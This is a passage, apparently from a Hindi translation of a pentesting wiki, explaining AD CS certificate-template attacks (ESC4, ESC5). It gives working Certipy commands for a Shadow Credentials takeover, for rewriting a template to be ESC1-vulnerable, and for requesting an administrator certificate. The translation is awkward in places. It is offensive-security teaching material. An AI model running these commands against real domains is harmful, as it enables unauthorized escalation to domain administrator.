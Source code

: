 एक पिछले जैसे एक privesc का उदाहरण:

<figure><img src="../../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>

ESC4 एक उपयोगकर्ता के पास सर्टिफिकेट टेम्पलेट पर लेखन अधिकार होने पर होता है। इसे उदाहरण के रूप में उपयोग किया जा सकता है कि सर्टिफिकेट टेम्पलेट की विन्यास को ओवरराइट करने के लिए जिससे टेम्पलेट ESC1 के लिए विकल्पी हो सकता है।

जैसा कि हम ऊपर के पथ में देख सकते हैं, केवल `JOHNPC` के पास ये अधिकार हैं, लेकिन हमारे उपयोगकर्ता `JOHN` के पास `JOHNPC` के लिए नई `AddKeyCredentialLink` एज है। क्योंकि यह तकनीक सर्टिफिकेटों से संबंधित है, मैंने इस हमला भी लागू किया है, जिसे [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) के रूप में जाना जाता है। यहाँ Certipy के `shadow auto` कमांड का एक छोटा सा झलक।
```bash
certipy shadow auto 'corp.local/john:Passw0rd!@dc.corp.local' -account 'johnpc'
```
**Certipy** एक एकल कमांड के साथ एक प्रमाणपत्र टेम्पलेट के विन्यास को अधिलेखित कर सकता है। **डिफ़ॉल्ट** रूप से, Certipy विन्यास को **ESC1 के लिए विकल्पित** बनाने के लिए विन्यास को **अधिलेखित** करेगा। हम **हमारे हमले के बाद विन्यास को पुनर्स्थापित करने के लिए उपयुक्त** होगा।
```bash
# Make template vuln to ESC1
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -save-old

# Exploit ESC1
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC4-Test -upn administrator@corp.local

# Restore config
certipy template -username john@corp.local -password Passw0rd -template ESC4-Test -configuration ESC4-Test.json
```
## वंशानुगत PKI ऑब्जेक्ट एक्सेस नियंत्रण - ESC5
### व्याख्या

जो व्यापक वेब है जिसमें ACL आधारित संबंधों का जाल है, जिसमें प्रमाणपत्र टेम्पलेट्स और प्रमाणपत्र प्राधिकरण से आगे कई वस्तुएँ शामिल हैं, वे सम्पूर्ण एडी सीएस प्रणाली की सुरक्षा पर प्रभाव डाल सकते हैं। ये वस्तुएं, जो सुरक्षा पर प्रभाव डाल सकती हैं, निम्नलिखित हैं:

* The AD computer object of the CA server, which may be compromised through mechanisms like S4U2Self or S4U2Proxy.
* The RPC/DCOM server of the CA server.
* Any descendant AD object or container within the specific container path `CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`. This path includes, but is not limited to, containers and objects such as the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, and the Enrollment Services Container.
